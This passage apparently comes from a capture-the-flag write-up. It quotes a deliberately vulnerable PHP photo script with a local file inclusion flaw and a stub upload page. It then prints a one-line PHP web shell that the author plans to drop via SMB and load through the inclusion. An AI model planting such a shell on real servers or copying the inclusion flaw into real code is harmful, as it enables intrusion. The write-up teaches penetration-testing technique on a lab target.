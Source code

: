     if ($auth === "e7749d0f4b4da5d03e6e9196fd1d18f1"){
     echo "<br><br><br>";
    
    echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
    echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";
    
    if(!isset($_GET["image_id"])){
      echo "<br><br>";
      echo "<center><p>image_name param is missed !</p></center>";
      echo "<center><p>please enter it to show the image</p></center>";
      echo "<center><p>default is image_id=a.jpg&pagename=timestamp</p></center>";
     }else{
     $image = $_GET["image_id"];
     echo "<center><img src='images/$image'></center>";
    
     echo "<center><h1>Something went worng ! , the script include wrong param !</h1></center>";
     include($_GET["pagename"].".php");
     //echo $_GET["pagename"];
     }
    }else{
    echo "<center><p>You can't see the content ! , please login !</center></p>";
    }
    ?>
    

I can get other pages as well. For example, if I get `upload.php`, I can see
it is in fact a fake uploads page:

    
    
    <?php
    
    // not finished yet -- friendzone admin !
    
    if(isset($_POST["image"])){
    
    echo "Uploaded successfully !<br>";
    echo time()+3600;
    }else{
    
    echo "WHAT ARE YOU TRYING TO DO HOOOOOOMAN !";
    
    }
    
    ?>
    

### Webshell

I want to use this LFI to include a webshell so I can run commands. I’ll use
my smb access to drop a simple php command shell into the Development share,
which `nmap` told me was `/etc/Development`.

    
    
    root@kali# cat cmd.php 
    <?php system($_REQUEST['cmd']); ?>
    